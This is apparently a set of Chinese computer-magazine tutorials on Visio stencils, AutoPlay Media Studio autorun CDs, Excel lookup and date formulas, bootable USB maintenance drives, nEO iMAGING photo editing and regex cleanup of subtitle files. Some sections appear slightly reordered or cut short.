现代家庭电脑和网络是少不了的，但是Visio中默认的模板中却没有电脑和网络产品，你不妨从 http://www.microsoft.com/downloads/details.aspx?FamilyID=716C617E-4F9C-4829-800A-F274B5BE8A1B&displaylang=zh-cn 下载“Visio 2003 示例：20个示例图表”，这个文件名包中包括了20个与支持和销售演示相关的Visio 2003 图示例，其中就有与IT相关的好几个模板文件。双击下载所得 VisioSam.exe 文件将其解压缩，双击其中的 DNetwork.vsd 文件，选中该文件中“计算机”或“以太网”项，右击，选择“复制”，返回到装修设计图中，按Ctrl + V键将其粘贴到相应的房间中即可。

# 酷炫自动播放光盘DIY

经常使用电脑的朋友肯定见过这样一些光盘：放入光驱后会自动执行光盘程序，程序界面不仅漂亮，还可以引导使用者进行各种操作，非常的人性化。其实不必过于羡慕制作者，只要使用 AutoPlay Media Studio 这款“所见即所得”的光盘自动播放制作工具，你同样可以做到这些，即使你毫无这方面的知识和经验也没关系。

## 实例一：牛刀小试，一分钟打造花卉幻灯片光盘

第一步：安装好 AutoPlay Media Studio 5.0(以下简称APMS)后运行它，在出现的欢迎界面中单击 Create(创建)按钮进入新项目选项对话框，这里，APMS 提供了多款非常精美的模板供我们选择。我们先小试一下牛刀，在“Project Name(项目名称)”中输入“花卉幻灯片”，然后双击 Slideshow(幻灯显示)模板生成一个图片幻灯片播放的项目。

| 项目 | 信息 |
| :--- | :--- |
| 软件版本 | 5.0.2.0 |
| 软件大小 | 22440 KB |
| 软件性质 | 共享软件 |
| 运行平台 | Win9x/ME/2000/XP |
| 下载地址 | http://crc.onlinedown.net/soft/22863.htm |
| 软件备注 | 网上可以下载到 5.0.0.1 版的汉化补丁，不过笔者试用的时候感觉性能不太稳定，所以本文将只在英文版上完成实例。 |

第二步：在进行制作之前需要先准备好几张图片及其缩略图，然后再将模板中的图片替换为我们自己的即可。在界面下方单击 Page1 标签切换到模板的第一页，双击大图，在弹出的图片属性对话框的 Settings(设置)选项卡下，单击文件浏览按钮打开文件选择窗口，在该窗口的 System(系统)选项卡下，选择我们自己的第一幅图片。单击 OK 返回文件选择窗口，切换到 Attributes(属性)选项卡下，将图片的宽度和高度改为 640 x 480(单位:像素)，这是该模板大图显示边框的尺寸。为了获得更好的显示效果，也可以在替换之前将图片处理成这个尺寸。修改好后确定。



第三步：使用同样方法替换缩略图，其最佳尺寸是 48 x 47(单位:像素)。在此模板中，单击缩略图可以快速切换到对应的大图所在页面，这项功能是通过脚本来实现的。在缩略图的属性对话框中，切换到 Actions(动作)选项卡，确认“On Click(单击)”状态下的动作为“Page.Jump("Page1");”。“上面以“--”开头的一行是注释语句，并没有实际作用(见图1)。依次点击进入其他页面(Page2、Page3…)。依照上面的方法将其他图片也都替换为我们自己的。

> **小提示**
如果发现图片属性对话框中有些项目无法修改，可能的原因是该图片被“钉住”了，在图片上右击，看看右键菜单中的 Pin 选项是否被选中，如果该选项被选中，可将其取消。

第四步：缩略图下面还有一个“WWW”按钮，其作用是一经单击即链接到相关网址。双击它，在 Actions 选项卡下将“On Click”下的语句中的网址改成自己的主页地址或其他相关网址，类似“File.OpenURL("http://www.cfan.com.cn", SW_SHOWNORMAL);”的样子。每个页面上的“WWW”按钮都要如此修改。对于页面上其他对象，都可以通过双击查看其属性。多看看模板中按钮的功能，可以学习一些简单脚本语句和基本功能的实现方法。

第五步：全部内容修改好后，按 Ctrl + S 快捷键保存，然后执行菜单命令“Project(项目)→Preview(预览)”，经过一番检查和运算，我们亲手制作的光盘自动运行界面就出现了(见图2)。拖动窗口可随意移动窗口在桌面上的位置，单击略图或单击下方的 BACK 和 NEXT 按钮可随意浏览图片，单击右上角“X”按钮可关闭窗口。怎么样？效果还满意吧。最后执行“Project(项目)→Publish(发布)”菜单命令，就可以选择将上面制作的光盘自动播放文件直接刻录到 CD-R/RW 光盘上或是保存到硬盘上。



> **小提示**
默认情况下，APMS的项目文件保存在“我的文档”的“AutoPlay Media Studio 5.0 Projects”文件夹下。注意：未注册的APMS创建的项目，会在界面上显示它的一些标志文字，生成的程序也会有使用期限。

## 实例二：自制“装机一条龙”光盘

如果觉得套用模板太限制自己的创造力，那我们接下来就白手起家，制作一个软件安装盘。每个人的电脑上都会有一些自己必备的软件工具，下面就来制作一个装机必备软件光盘，方便自己以后重装系统。

第一步：启动 APMS，单击欢迎画面上的 Create 按钮，在打开的项目窗口中将项目命名为“装机必备软件”，然后双击空白模板建立一个新项目。选择菜单命令“Project(项目)→Window Settings(窗口设置)”，在对话框中选择页面大小为 Large(大的)，即尺寸为 790 x 545 像素(当然你也可以自定义大小)；将 Style(风格)设为 Flat(平整)，这样运行界面将没有标题栏、边框，使光盘程序显得更加专业。其他选项请根据实际需要进行选择，确定后回到操作界面。在背景上双击打开页面属性对话框，在其 Settings 选项卡下将 Background(背景)设置为 Image(图像)，然后在下面的 Image 选项中浏览选择光盘自运行界面的背景图片(需要事先准备好)，再选择“Fit to Page”项，以使图片可以铺满整个界面。其他项目保持默认即可，修改好后确定。

第二步：下面先把需要刻录到装机光盘上的软件安装文件复制到当前项目的目录下，默认的路径是“C:\Documents and Settings\你的用户名\My Documents\AutoPlay Media Studio 5.0 Projects\装机必备软件\CD_Root”。该目录下已有一个名为 Autoplay 的文件夹，这里都是 APMS 为建立自运行程序所需要的文件。在 APMS 显示区域下方有一个“Project Size(项目大小)”面板，上面可以看到目前项目目录下的文件容量，方便我们根据情况进行调整。

第三步：在 APMS 工具栏中单击“新建标签对象”按钮，或者选择菜单命令“Insert(插入)→Label(标签)”，在对话框的 Settings 选项卡下的 Text(文本)框中输入标签内容：“装机一条龙”；单击“Select Font(选择字体)”按钮设置字体和字号；选项 Alignment(排列)用来设置文字的对齐方式，Orientation(方向)设置文字的排版方向；“State Color(状态颜色)”是文字在各种状态下的颜色：Normal(常规)是正常状态下的颜色，Highlight(高亮)是鼠标置于其上时的颜色，Click(单击)是鼠标在其上单击时的颜色。因为本例界面上的标题文字不需要变化，因此设置 Normal 为白色，然后单击“Match Normal(匹配常规)”按钮让 Highlight 和 Click 颜色均变为白色。设置好后确定。

第四步：在左上角的 Gallery(图库)面板中列出了许多软件自带的按钮供选择。单击某个按钮，可以在下面的 Preview 面板中预览。笔者在这里选择了“green_parallel.btn”按钮，将其拖到界面的适当位置。

1.  双击拖放到界面上的按钮打开它的属性对话框，其 Settings 标签下的 Text 是显示在按钮上的文字，这里输入“ACDSee”，并设置字体、字号、位置、状态等属性；因为按钮是互动的，最好将“State Color”中的各项设为不同的颜色。
2.  切换到 Attributes(属性)选项卡下，Object(对象)是该按钮在被脚本调用时的名称；Tooltip(工具名提示)是当鼠标置于该按钮上时显示的提示文字，这里我们输入“开始安装ACDSee”；Cursor(光标)是光标置于该按钮上时的样子，位置和大小可以在此处调整也可以在窗口中用鼠标调整；Sounds(声音)允许我们为鼠标与按钮的互动添加声音，在这里选择 Standard(标准)即可。
3.  切换到 Actions 选项卡，这里是按钮发生作用的关键所在。选择“On Click”动作，然后单击“Add Action(添加动作)”按钮打开向导窗口，在“Step 1”中选择“File”，在下面的“Step 2”中选择“File.Run”，单击“下一步”，在“Step 3”中选择“Filename”项，通过其后的“…”按钮浏览并选择项目目录下的 ACDSee 安装程序文件(见图3)，其他选项保持默认即可，单击“完成”按钮结束。“On Click”状态的动作语句将变成：“result = File.Run("ACDSee\\acdseepowerpack.exe", "", "", SW_SHOWNORMAL, false);”。确定后回到操作界面。



4.  用同样方法制作其他软件安装按钮，将各个按钮排列摆放到合适位置。可以选择菜单命令“View(视图)→Toolbars(工具栏)→Alignment(排列)”，打开排列工具栏以方便对齐操作。
5.  为了使自运行界面功能更加完备，笔者还添加了“浏览光盘”和“退出”按钮。这两个按钮选用的是“peach_rounded2.btn”，并且适当调整了大小。浏览光盘按钮的 Action 是 File.ExploreFolder，然后在 Path 中选择打开光盘的根目录，或者其他子目录，打开根目录的语句是“File.ExploreFolder("{_SourceFolder}", SW_SHOWNORMAL);”。退出按钮的 Action 是“Application.Exit();”。将这两个按钮也进行排列和对齐。

第五步：这一步并非必要，但是可以更高效地利用光盘的空间。选择菜单命令“Tools(工具)→Optimize Resources(优化资源)”，在出现的对话框中，列出了项目目录下 AutoPlay 文件夹下的各个子文件夹，我们可以根据实际情况对这些子文件夹进行清理。

第六步：按快捷键 Ctrl+S 键保存项目，然后按 F5 键试运行一下。是不是显得很专业呢？测试一下各项功能是否正常，如果都 OK，就可以选择工具栏上的 Publish(发布)按钮(或者菜单命令“Project→Publish”)进行刻盘或保存到硬盘中了(还可以制作成 ISO 镜像文件)。

经过一番尝试，你是否已经对 AutoPlay Media Studio 这款软件着迷了呢？其实它还有更多精彩功能，像大量预置的模板、随心所欲添加的动画和音效、丰富多彩的互动选项等。尤其值得一提的是它还提供了“Button Maker”(按钮制作器)程序，供我们自己创建按钮。而所有这些功能，都形象直观，很容易上手操作。
（天津 奇士）

## 如何成为“万事通”

故事:环球旅游公司近期业务发展势头不错，师徒四人决定会餐一顿以示庆祝。席间，唐僧问道:“八戒，说实在话，你的工作能力比起你猴哥来还是差那么一点点，可是最近你的办事效率大有超过你猴哥的架势。在QQ上不管问你什么问题，几秒钟不到就有答案，上千人的客户资料，想调谁的信息就调谁的信息，厉害啊！”八戒呵呵笑道:“其实，我只是借用了一些Excel里的查找函数而已，虽然是在同样的数据库里面找资料，但是会比猴哥和沙师弟快那么一点点”。(本文示例可从http://www.newhua.com/cfan/200516/xyj04.rar下载)

## 海量数据里找资料，一秒钟搞定

第一步:如图1所示,是一份客户信息数据表,其中A列是客户的名称,B列是客户的具体资料。我们在D3和D5单元格中分别输入提示文字“输入客户名称”和“客户详细资料”,并通过右键菜单中的“设置单元格格式”命令对整个工作表做一些简单装饰。



第二步:按Ctrl键不放并点击列号A和列号B以全部选中这两列,然后执行“插入→名称→定义”命令调出定义名称对话框,为选中的区域设置好名称(如:“客户信息”),单击“添加”后再单击“确定”返回。

第三步:点选E5单元格(即提示文字“客户详细资料”右侧的那个单元格),输入以下公式:
=VLOOKUP(E3,客户信息,2,FALSE)
按回车确定后,一个效率奇快的数据查询系统就建立完成了。现在就来试一试,在E3单元格中输入客户的名字(如本例中输入:“李太白”)后按回车键,则E5单元格中立即显示出该客户的相关资料来(见图2)。



### VLOOKUP小档案

**语法:** VLOOKUP(lookup_value,table_array,col_index_num,range_lookup)
**说明:** 使用VLOOKUP函数,首先要建立一个查找表(或数组)。所谓查找表实际上是指的一个特定的区域,上例第二步中定义的区域名称即是在建立查找表。定义区域名称主要是为了引用的方便,其实我们也可以在VLOOKUP函数的参数中直接使用A2:B15之类的形式来指定查找表的区域范围。
**lookup_value**,你想要查找的数值,可以是数字、引用、文本等,上例中我们查找的是E3单元格中的值,在该单元格中我们可以输入某个客户的名称用来查询;
**table_array**,查找表的区域,是对指定区域或区域名称的引用,如上例第二步中定义的区域名称“客户信息”;
**col_index_num**是查找表(table_array)中待返回的匹配值的列序号,col_index_num为1时,返回table_array第1列中的数值,col_index_num为2时返回table_array第2列中的数值,以此类推;
**range_lookup**是一个逻辑值,当它是TRUE或者省略时,则返回近似匹配值,如果是FALSE则返回精确匹配值。
**扩展:** 与VLOOKUP对应的函数是HLOOKUP,它与VLOOKUP的格式完全一样,唯一区别的是,前者按列查找(第三个参数为列序数),后者则是按行查找(第三个参数为行序数)。

第四步:当E3单元格为空或者输入了不匹配的人物名称时,E5单元格中将显示为“#N/A”,虽然不影响使用,但是看起来很别扭。可将E5中的公式改造如下:
=IF(ISNA(VLOOKUP(E3,客户信息,2,FALSE)),”没有找到”,VLOOKUP(E3,客户信息,2,FALSE))
这个公式联合使用IF和ISNA函数,用来检测查找是否失败。将VLOOKUP函数作为ISNA函数的参数,如果VLOOKUP返回“#N/A”(即没找到匹配的值),则ISNA函数返回TURE,IF函数调用第2个参数(即显示:“没有找到”),否则IF函数调用第3个参数,继续执行VLOOKUP函数。

### MATCH小档案

**语法:** MATCH(lookup_value, lookup_array, match_type)
**说明:** MATCH可以返回要查找的内容所在行或列数位置,它常常与INDEX联合使用。lookup_value是需要查找的内容,lookup_array是可能包含所要查找内容的连续单元格区域,match_type则是内容匹配的类型,0为精确匹配,-1或1则是不精确匹配,默认为0。比如上例INDEX参数中的“MATCH(B1, B7:B12, 0)”,它表示查找B7:B12(即客户名称那一列)区域中的内容,看看是否有与B1单元格(我们用来输入查找的客户名称的地方)内容相匹配的,如果有则返回它所在行的位置。

第二步:和实例1中一样,联合使用IF和ISNA改造上述公式,使得在没有找到匹配内容的时候能有正确的提示:
=IF(ISNA(INDEX(A7:F12, MATCH(B1, B7:B12, 0), MATCH(B2, A6:F6, 0))),”没有找到”,INDEX(A7:F12, MATCH(B1, B7:B12, 0), MATCH(B2, A6:F6, 0)))
看起来很复杂,只不过是将第一步中完整的INDEX函数分别作为IF和ISNA的参数而已(见图4)。

## 从一维到二维的精确查找

上一实例中的查找功能比较简单,只能在一行或一列(也就是一维)中进行查找。如果将客户信息再细分为职业、头衔、联络地址、个人简介等多个字段,查找具体某方面的信息时就很不方便了。下面就对实例1进行升级,实现二维查找。
第一步:如图3所示,是改造过的客户资料查询表;客户信息为成了多个字段。点选提示文字“具体信息”右侧的单元格,即B3单元格,输入以下公式:
=INDEX(A7:F12, MATCH(B1, B7:B12, 0), MATCH(B2, A6:F6, 0))



本例中没有像上例那样为区域重新定义名称,而是以冒号(:)隔开左上角和右下角单元格名称的形式来直接引用区域。这个公式的工作原理,请参阅下面的小档案。现在,输入客户名称(如:李太白),并输入要查询的字段(如:公司名称),马上就可以显示出具体信息了。

### INDEX小档案

**语法:** INDEX(reference,row_num,column_num,area_num)
**说明:** INDEX返回指定的行与列交叉处的单元格的内容。它有两种语法形式:数组和引用。因为本系列还未涉及到数组概念,所以这里主要解释一下它的引用语法形式。
**reference**,是对一个或多个单元格区域的引用,本例中引用的区域为A7:F12,是记录所有客户数据的区域(当然,实际应用中会有大量的数据,不会像本例一样只有象征性的几条记录);
**row_num**和**column_num**是所引用的行和列的序号,如在公式“=INDEX(A7:F12,2,6)”中,表示返回A7:F12这个区域中的第2行第6列的数据,上面例子中的行与列的序号则是通过MATCH函数来获得的;
**Area_num**,这个参数一般不怎么用到,当工作表中有多个区域时由它来指定使用哪个区域,如果省略的话,INDEX使用区域1。

## 一点通

★今天星期几?
在Excel日期函数中,WEEKDAY函数能判断某个日期为星期几,并以编号的形式表示出来,即,Sunday为1,Monday为2,以此类推。不过编号的形式不够人性化,我们不妨使用CHOOSE函数将它们转换为适当的字符串。CHOOSE是最简单的一个查找函数,它的语法形式为:CHOOSE(num, value1, [value2, …])。num是一个整数,如果num是1则返回value1的值,如果num是2则返回value2的值,以此类推。value值列表最多可包含29个。这个确定某日为星期几的公式可如下所示(假设是在B1中输入):
=CHOOSE(WEEKDAY(A1),”星期日”,”星期一”,”星期二”,”星期三”,”星期四”,”星期五”,”星期六”)
将A1单元格设置为日期格式,以后只要在A1中输入一个日期,B1单元格中立即会显示出该日为星期几。

★在实际查询的时候,可以使用通配符进行模糊查询,?表示一个字符,*表示任意个字符,如:查询“李?白”,则所有名字为三个字,首尾为“李”和“白”的客户信息都被找出来,而查询“李*”,则所有姓“李”的客户都被找出来。

## 擂台赛

◇通过上面学习到的几个函数,我们可以打造出Excel版的金山词霸来,输入任意一个单词,即可查询出该单词音标、词义、例句等。有兴趣的读者不妨一试,不需要输入完整的英语词汇资料,只需设计出一个模型即可。对于前三名优胜者,我们将有精美奖品赠送。
◇第13期擂台赛优胜者为读者老Q,作品名称:“减肥计划”。第14期擂台赛优胜者为读者何源,作品名称:“不固定节日查询系统”。另外邮件用户名为bt0361的读者也发来了母亲节计算公式。以上三位热心读者,将获得最新的《电脑爱好者合订本2005(上)》(两本书两张光盘)一套。13、14期擂台赛优胜作品下载:http://www.newhua.com/cfan/200516/lts001.r ar
(安徽 无言)## 现学现用，打造不固定节日查询系统

作者感言：看了贵刊今年第14期“聪明用电脑”栏目中的“西游记之 Excel 函数篇”后，感觉十分有用。我看到后面还设有擂台赛，学以致用，所以报名参加了（本文示例文件，可到 http://www.newhua.com/cfan/200516/lts001.rar 处下载）。

赛题回放：有些节日日期不固定，比如每年母亲节定为五月份第二个星期天，但到底是五月几号就不固定了，请设计一种算法，快速计算出日期不固定的节日来。

> 编辑点评：本文作者所设计的不固定节日查询系统有两个特色：一、界面友好，易于操作，界面元素安排清晰明了，文字提示也很体贴；二、内容丰富，除母亲节外，还包含了其他不固定节日的查询，甚至提供了一个中外节日一览表；内容非常全面。

第一步：确定算法。首先算出母亲节（5月第2个星期日）的通用算法：假设有两个极端：一、假设5月1日就是星期日，由此可算出第二个星期日是8号；二、假设5月1日是星期一，则第二个星期日是14号。其他年份的母亲节都在8号与14号之间，正好7天。

日期函数小档案

| 函数 | 语法 | 说明 |
| :--- | :--- | :--- |
| DATE | DATE(year,month,day) | year，年数，可以为 1 到 4 位数字；month，月份，如果输入的月份大于 12，将从指定年份的 1 月份开始往上加，例如：DATE(2008,14,2)将返回代表 2009 年 2 月 2 日的序列号；day，日期，代表在该月份中第几天的数字。 |
| WEEKDAY | WEEKDAY(serial_number, return_type) | 返回某日期为星期几。默认情况下，其值为 1 (星期日) 到 7 (星期六) 之间的整数。 serial_number，代表要查找的那一天的日期；return_type，确定返回值类型的数字。代表返回值如下表所示： |
| return_type | 1 或省略 | 数字1(星期日)到数字 7(星期六)，同 Microsoft Excel 早期版本 |
|  | 2 | 数字1(星期一)到数字 7(星期日) |
|  | 3 | 数字0(星期一)到数字 6(星期日) |

本例中，将选择 2 以对应从 1～7 表示星期一至星期日。

```
=IF(WEEKDAY(DATE(F6,5,8),2)=7,DATE(F6,5,8),IF(WEEKDAY(DATE(F6,5,9),2)=7,DATE(F6,5,9),IF(WEEKDAY(DATE(F6,5,10),2)=7,DATE(F6,5,10),IF(WEEKDAY(DATE(F6,5,11),2)=7,DATE(F6,5,11),IF(WEEKDAY(DATE(F6,5,12),2)=7,DATE(F6,5,12),IF(WEEKDAY(DATE(F6,5,13),2)=7,DATE(F6,5,13),""))))))
```

其中使用的是 IF 函数嵌套，WEEKDAY(DATE(F6,5,8),2)=7,DATE(F6,5,8)语句表示取F6单元格中的年份，加上5月8日这天，然后用WEEKDAY函数判断是否为星期天，如果是星期天就用DATE(F6,5,8)在相应的单元格内显示当天即是节日。其余的嵌套语句类似，用以连续判断从8日到14日是否为星期天。

第二步：具体实现。打开一个新的工作表，在E6单元格内先输入“请输入要查询的年份”，在F6单元格内输入查询年份，如“2005”；在H6单元格内输入“例：2005年请输入：2005（并按回车）”以提示用户输入格式。在C10单元格内输入提示文字：“母亲节”，然后在E10单元格内输入第一步中设计的代码。

理论上可以使用七层嵌套，但笔者使用后却发现提示错误，所以利用两个单元格共同显示结果，分别在E10单元格中显示8日至13日结果，而在F10单元格中输入“=IF(WEEKDAY(DATE(F6,5,14),2)=7,DATE(F6,5,14),"")”以显示当14日是星期日时的结果，之所以在IF函数第三个参数中用双引号，是为了避免其显示成“FALSE”。最后把E10、F10单元格的格式修改成“日期”格式即可。

现在我们在F6单元格内输入一个年份，比如“2005”，就能在E10(或者F10)单元格中提示当年的母亲节日期为“2005年5月8日”。再输入其他年份检验一下正确性。至此，就完成了不固定节日的计算。

第三步：美化界面。我们可以按照以上方法在相应的单元格内输入其他节日的查询，并在节日后输入相应的提示。大家可下载本文的示例文件，以作参考。

快动手吧，现学现用，用技术提高工作效率！

## 揭秘改造新招数 我的闪存盘大不同

闪存盘作为一种可以方便地随身携带的存储设备，几乎是电脑用户的必备配件，而且现在闪存盘价格已经非常便宜了，256MB的也不到200元，这么大的容量，如果仅用来备份些日常数据，就有些浪费了，我们希望它能实现更多的实用功能，以前也有文章介绍过在闪存盘上打造随身邮、加密盘等功能，这里笔者再给朋友们介绍一些闪存盘改造实用新技术，可以让你的闪存盘成为真正的随身助手，具备系统维护、移动上网等实用功能。

**超级系统维护启动闪存盘**

改造目标：将闪存盘打造为具备系统维护功能的启动闪存盘。

工具准备：我们需要两个工具软件：

**USBoot小档案**
软件版本：1.67
软件大小：587KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.newhua.com/cfan/200517/usbboot167.rar

**中文多功能DOS启动U盘小档案**
软件版本：1.0
软件大小：4735KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://nj.onlinedown.net/soft/28107.htm

第一步：制作启动闪存盘
首先需要使用USBoot将闪存盘制作为可引导系统的启动盘。具体方法可以参考2005年第11期的《三步！闪盘变成启动盘》。要注意的是USBoot在制作启动闪存盘时会重新格式化闪存盘，这时闪存盘上的数据都会丢失，建议使用前备份数据。或者也可以选中工作模式菜单中的“引导处理”选项，然后再单击“开始”按钮制作，这时USBoot就只会进行系统文件传送、改写引导扇区，而不会破坏数据，可以先尝试使用这种方式制作。

**小提示**
不同类型的闪存盘在引导至DOS后的盘符状态是不一样的，可移动设备类闪存盘以ZIP方式启动后，在DOS下会以盘符A出现，而固定设备类闪存盘以HDD模式启动后则会以盘符C的形式出现。这样在对硬盘操作时可能会因盘符问题产生一些错误，如果你的闪存盘能够以任何模式启动的话，请尽量优先选择ZIP模式制作启动盘。FDD模式是指把闪存盘模拟成软驱模式，启动后闪存盘的盘符也是A，但这种模式制作的启动闪存盘在一些电脑上启动时可能会出现找不到的情况，一般不建议使用。

第二步：测试启动闪存盘
重启电脑，开机时按“Del”键进入CMOS设置，选择进入“Advanced Setup”项，在“1st Boot Device”选项中根据你制作的闪存盘模式设置为“USB ZIP”或者“USB HDD”，最后保存设置即可。如果你的主板BIOS能够支持这种闪存盘启动的话，系统就会自动引导到DOS提示符状态，表示启动成功，继续下面的第三步。

第三步：添加系统维护功能
运行下载后的中文多功能DOS启动闪存盘安装程序“DOS_U.exe”，当提示解压路径时，单击“浏览”按钮选择闪存盘盘符，单击“安装”按钮继续，当提示输入口令时，输入“lijin”即可。现在用我们制作的这个启动闪存盘引导系统，你就可以看到它具备的强大系统维护功能了，例如中文输入、中文分区格式化、磁盘维修、硬盘低格、病毒查杀、CMOS备份、系统备份恢复等，具体使用这里就不再一一介绍，大家可以自行研究。当然，如果你有其他的DOS系统维护工具，也可以在启动闪存盘的功能上自行扩充，增强其实用性。

**打造你的移动工作平台**

改造目标：将闪存盘打造为你的移动工作平台，实现随身邮、随身收藏夹、安全账号登录、移动备份、电脑钥匙等功能，并且要具备很好的安全性。

工具准备：需要一款叫做“闪存盘文件管理专家”的软件，其英文名为USB Notebook (以下简称UN)，可以将电子邮件、联系人、文件、网址、账号等资料存放在闪存盘中，让你能随时随地在任何一台电脑上使用这些资料，而当你拔下闪存盘时，这些资料也不会留在别人的电脑上，使你真正轻松自在地移动工作。

- **3.移动隐私盘**
UN具备隐私保护功能，可以在闪存盘上虚拟一个专用的加密存储目录，将所有需要保护的文件保存在这个目录中即可。在UN主界面中单击“行动保密压缩文件”按钮，软件首先会让你设定加密目录的存取密码。然后会自动弹出一个打开闪存盘My Security Doc目录（加密目录）的资源浏览器窗口，在这里我们可以进行文件的复制、粘贴、删除等操作。所有保存在这里的文件都会被自动加密和压缩存储，不仅安全，而且有效节省了闪存盘文件的存储空间。

- **4.移动备份**
右击“行动文件/个人备份”，选择“设定”，打开备份设定窗口，单击“新增”按钮添加新的同步备份项目。添加完毕后，右键单击该按钮，选择“立即执行同步”即可按照设定的同步任务进行备份。另外，单击“同步中心”按钮，可以将闪存盘上的电子邮件、联系人、收藏夹、我的文档文件与电脑进行双向同步。

- **5.电脑钥匙**
UN还可以把你的闪存盘改造成“电脑钥匙”，当你拔下闪存盘时，电脑会自动锁定，避免别人随意操作电脑，只有插入闪存盘才能解除锁定。

**请个免费的闪存盘维修工**

改造目标：让一些不能正常使用的闪存盘“起死回生”，并打上自己的个性标志。

工具准备：PortFree Production Program（以下简称PFPP）是一款专业级的闪存盘维修工具，它可以对一些闪存盘出现的无法显示盘符、有文件不能读写、容量减少或归零等情况进行修复。

**PortFree Production Program小档案**
软件版本：3.27
软件大小：575KB
软件性质：免费软件

## 光影魔术手 菜鸟的Photoshop

数码相片没有拍好怎么办？当然可以在电脑上进行后期处理了，对高手而言，PhotoShop（以下简称PS）当然是数码相片完成后必经的一道工序。但是，对于广大菜鸟而言，搞不清楚PS那复杂的操作，难道就无法修复数码相片了吗？

这里为大家介绍一款不错的菜鸟用修图软件，名为“光影魔术手”。它给我们提供了很好的选择，不仅操作简便，而且也不像普通软件处理得那么粗糙，它完成的效果可以和PS相媲美。

nEO iMAGING（光影魔术手）小档案
软件版本：0.16
软件大小：1026KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://neoimaging.beareyes.com.cn/nEOiMAGING.exe

下载安装后，打开数码相片，为了能清楚地看到处理效果，我们采用了“对比”模式（点击工具栏上的“对比”按钮），可以明确地看到处理前后相片的变化。由于光影魔术手提供的对相片的翻转、镜像以及裁剪功能与其他看图软件没有太大差异，我们不再赘述，还是来看看它究竟能够玩出哪些特别的魔术吧。

### 实例1：数码相片CCD坏点修复

众所周知，数码相机CCD如果出现了坏点，那么以后拍照时相应的位置都会出现坏点，使用魔术手，可以轻松修复这些坏点，当然是相片上的坏点。

第一步：拍摄样张。盖住相机镜头盖拍摄一张全黑的照片，然后再对着白纸拍一张全白的照片。注意拍照时，ISO应该设置到最低，快门速度应该比二分之一秒更快，以便减少噪点。

第二步：用魔术手来分析样张。通过“工具→CCD死点修补”，然后在对话框选择“设置死点样张”来选取刚才所拍照的纯黑或者是纯白照片。注意，照片只能是JPEG或JPG格式。

第三步：坏点修复。只要单击“坏点修补”就可以了。因为魔术手可以根据坏点周围的内容进行智能修复，所以根本不需要人工干涉。

### 实例2：完成数码相机没完成好的工作

由于数码照片的拍摄需要环境等因素的配合，所以作为菜鸟很难一次拍摄出效果非常好的照片，下面一起来让魔术手完成相机没有完成好的工作。

- ①白平衡，不同相机在拍摄照片时，受周围灯光等因素影响白平衡效果有时差异也较大，而魔术手可以轻松解决这个问题，还原真实的色彩效果。
- ②数码补光、曝光，这是菜鸟在拍照时经常出现的两个问题，尤其是人物面部拍得较黑，应用魔术手“效果→数码补光”，就可以完成补光任务。曝光不足的问题，直接用工具栏上的“曝光”来完成。
- ③正片效果，为了使颜色能够更加鲜艳，模拟反转片的效果，“效果→数码补光”就可以实现正片效果。
- ④正片负冲，这是最近非常流行的一种处理方法，尤其是在PS中，它可以提供对色彩饱和度以及过度效果的控制，使颜色鲜艳又不至于使暖色调过于夸张。
- ⑤负片效果，这也是PS中很流行的一种处理方法，它可以使明暗细节分离、独立运算，得到一张相对动态范围较广的照片。同时可以降低细节的损失，所以也有人称之为“高宽容度负片效果”。

对于所有效果，魔术手并不像一些处理软件那样一次性完成，用户没有选择余地，恰恰相反，它提供了非常精细的调整，处理照片时，可以对参数进行细致的调整以求达到最佳效果。

### 实例3：艺术化效果

到此为止，我们只能说完成了对照片的初步处理，要使照片更加有艺术气息，还需要为照片添加艺术效果。

- ①夜景抑噪。拍摄夜景时，在黑暗的天空中会产生许多红绿噪点，所以经过魔术手“效果→其他特效→夜景抑噪”就能去除这些噪点，而把它应用于普通照片上，也可以产生非常艺术化的效果。
- ②褪色旧照。一张老照片，往往就是一段难忘的回忆，使用“效果→其他特效→褪色旧照”，就可以把照片加工成旧照片，艺术效果的确不错。
- ③晚霞渲染。通过“效果→其他特效→晚霞渲染”来体会一下晚霞满天的效果吧。

### 实例4：边框添加

俗话说，红花还需绿叶扶，数码照片加上边框才会更有艺术感。建议到 http://neoimaging.beareyes.com.cn/nEOiMAGINGframes.exe 下载光影魔术手的边框素材包，并进行安装。然后在软件中的“工具→花样边框”中就可以为照片添加多达数百种的边框。

### 实例5：添加文字水印及图片标签

要想在照片上加上自己的签名，使用菜单中的“工具→文字标签”就可以，对于文字标签而言，你可以选择它的内容及字体、字型和放置的位置等。而如果想添加水印，可点击“工具→文字标签”菜单项，然后使用BMP格式的图像，即可完成添加。

### 实例6：多张照片一次处理

除以上特点外，光影魔术手还提供了批处理功能，方便了快速处理一组照片。

第一步：通过“文件→批处理”菜单项打开批处理对话框。
第二步：点击“照片列表”标签，通过“目录”或“增加”按钮直接将照片所在的目录或多张照片添加进去。
第三步：点击在“照片处理”标签，选择对照片处理的操作，比如“坏点修补”、“花样边框”、“水印”等等，勾选你需要的处理方法，再在后面对效果进行详细设置。
第四步：点击“输出设置”标签，设置好“输出文件位置”、“输出文件格式”，然后，单击“确定”就可以一次性完成对所有照片的处理，效率非常高。（辽宁 海客）

## 软件·实用软件

## 轻松制作电影剧本

看原声大片学习英语是一种非常有效的方式，如果看电影时手中拿着剧本，遇到不会的单词或词组，记下来查查字典，对于学习英语大有裨益。今天笔者就给大家介绍一种制作剧本的方法。

在制作之前，需要准备一款支持正则表达式的文本编辑器，本文以EmEditor为例进行讲解。

下面笔者以电影《宝藏星球》为例，向大家介绍剧本制作的方法。

第一步：打开射手网（http://shooter.com.cn），在左上角的“字幕搜索”工具框中输入“宝藏星球”，点击“搜索”，就可以搜索并下载到字幕文件。解压缩后，得到SRT格式的字幕文件，右击Treasure.Planet.DVDRip.XviD-ViT E.en.srt，选择“EmEditor”，用EmEditor打开文件。

第二步：接下来的工作就是去掉类似于`00: 00:32,699 --> 00:00:36,499`的字符。点击菜单中的“搜索->替换”，打开“替换”窗口。

第三步：在“搜索内容”中输入`\n\S* --> \S*\n`（不含引号）；“替换为”框中不必输入内容，同时勾选“使用正则表达式”，点击“全部替换”即可。最后，另存为Jb.txt。

第四步：用Word打开Jb.txt，选择菜单中的“格式->分栏”。将文件分成两至三栏，这样可以节约纸张。大功告成了，打印出来就是一个比较好的剧本了，当然利用正则表达式还可以完成许多事情。

